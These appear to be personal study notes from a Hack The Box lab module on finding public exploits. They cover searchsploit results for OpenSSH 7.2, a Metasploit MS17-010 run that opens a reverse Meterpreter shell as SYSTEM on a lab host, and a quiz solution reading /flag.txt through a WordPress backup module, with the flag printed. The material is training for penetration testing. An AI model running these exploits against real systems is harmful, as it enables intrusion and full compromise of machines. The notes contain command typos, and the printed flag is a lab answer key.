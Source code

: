 # Finding Public Exploits
tool: [[searchsploit]]
```pug
sudo apt install exploitdb -y

searchsploit openssh 7.2
```
Output:
```pug
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                               | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                                                         | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                      | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                         | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                                                        | linux/remote/40113.txt
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

OR utilize databases for vulnerabilities - [Exploit DB](https://www.exploit-db.com/), [Rapid7 DB](https://www.rapid7.com/db/), or [Vulnerability Lab](https://www.vulnerability-lab.com/).


# Metasploit Primer
#tool #Metasploit "The Metasploit Framework (MSF)"
- Running reconnaissance scripts to enumerate remote hosts and compromised targets
- Verification scripts to test the existence of a vulnerability without actually compromising the target
- Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets
- Many post-exploitation and pivoting tools
```pug
msfconsole

	msf6 >
search exploit eternalblue
```
Output:
```sh
Matching Modules
================

   #  Name                Disclosure Date  Rank     Check  Description
   -  ----                ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
```

found - `exploit/windows/smb/ms17_010_psexec`
```pug
use exploit/windows/smb/ms17_010_psexec
```
```sh
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

```pug
show options ???
```
```sh
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```

==yes needs to be set up==!

```pug
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
	RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
	LHOST => tun0
```

```pug
msf6 exploit(windows/smb/ms17_010_psexec) > check
```
```sh
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

Running it:

```pug
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```
```sh
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```

!! used the `shell` command to drop us into an interactive shell





# End quiz
Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)
```pug
namp -sV -Pn 94.237.49.166 -p 54485
-Apachehttpd 2.4.41
```
nothing about that server pops up
-> go to the website
![[Pasted image 20240424231847.png]]
```pug
msfconsole

search simple backup
use uxiliary/scanner/http/wp_simple_backup_file_read
show options
set FILEPATH /flag.txt
set RHOSTS 94.237.49.166
set RPORT 54485
run
```
Then cat the downloaded flag
HTB{my_f1r57_h4ck}
